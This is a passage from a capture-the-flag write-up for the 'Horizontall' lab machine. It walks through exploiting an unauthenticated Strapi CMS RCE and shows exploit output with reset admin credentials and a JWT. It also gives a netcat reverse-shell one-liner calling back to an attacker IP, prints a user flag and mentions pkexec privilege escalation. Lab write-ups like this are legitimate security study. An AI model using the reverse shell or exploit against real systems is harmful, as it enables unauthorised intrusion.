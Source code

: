 ### 3.3 Login portal
{{<figure src="/images/horizontall-strapi.png" title="Login Portal">}}

### 3.4 Vulnerability
* [Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50239)
{{<figure src="/images/horizontall-strapi-version.png" title="Version Identification">}}

## 4. Foothold

### 4.1 Shell
{{<figure src="/images/horizontall-footholda.png" title="Blind RCE">}}

```bash
+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTUyNzU2LCJleHAiOjE2NDY1NDQ3NTZ9.ucoeJpyivBWFaRCG8IAmfXUEH_2Q0emD9yBqckOkmfI
```

It does work as I looged GET request on  web server. I had to do this to ensure that blind RCE was working. 

{{<figure src="/images/horizontall-footholdb.png" title="Verifing Blind RCE">}}

### 4.2 Reverse Shell

* Shell used 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f
```
{{<figure src="/images/horizontall_revshell.png" title="Reverse Shell">}}

### 4.3 User Flag
{{<figure src="/images/horizontall_uf.png" title="User Flag">}}

```bash
1e76ca9ddad1b45992f9701539d9ce9b
```

## 5. Privilege Escalation

* pkexec vulnerable using Linpeas

{{<figure src="/images/horizontall_pv_1.png" title="LinPEAS output">}}

